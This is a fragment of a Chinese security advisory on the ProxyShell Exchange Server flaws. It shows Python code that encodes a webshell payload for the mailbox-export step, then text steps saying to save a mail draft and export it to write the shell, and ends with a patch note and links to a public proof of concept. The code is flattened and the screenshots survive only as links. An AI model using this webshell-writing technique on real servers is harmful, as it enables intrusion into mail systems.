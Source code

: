     def cryptpermute(data, encrypt=False):    table = mpbbR if encrypt else mpbbI    tmp = [table[v] for v in data] if six.PY3 else [table[ord(v)] for v in data]    i = 0    buf = bytes(tmp) if six.PY3 else bytearray(tmp)    stream = BytesIO(buf)    while True:        b = stream.read(DWORD_SIZE)        try:            tmp[i] = b[0]            tmp[i + 1] = b[1]            tmp[i + 2] = b[2]            tmp[i + 3] = b[3]            i += DWORD_SIZE        except:            pass        if len(b) != DWORD_SIZE:            break  
        return bytes(tmp) if six.PY3 else ''.join(tmp)  
    if __name__ == "__main__":    webshell = b"d"    v1 = cryptpermute(webshell, False)    b64_data = base64.b64encode(v1).decode()    print("[+] Encode webshell ⬇\n{}\n".format(b64_data))  
        encode_shell = base64.b64decode(b64_data)    decode_shell = cryptpermute(encode_shell, True)    print("[+] Decode webshell ⬇\n{}\n".format(decode_shell.decode()))
    
    
      
    

content下内容为shell编码后再进行base64的内容

    
    
    再后续导出将会还原为原内容  
    

执行 保存邮件草稿请求 导出写shell

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093229.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093230.png)

  

查看文件  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093232.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093233.png)

  

 **0x06 修复方式**  
  
  
  

微软已发布上述3个高危漏洞的安全补丁，腾讯安全专家建议采用Exchange Server 的用户尽快升级修复。

  

    
    
     **参考链接：**

https://github.com/dmaasland/proxyshell-poc  

https://mp.weixin.qq.com/s/aEnoBvibp-gkt3qtcOXqAw

https://mp.weixin.qq.com/s/-qJh2u0mbrKWxWNCZgOrVw  

  
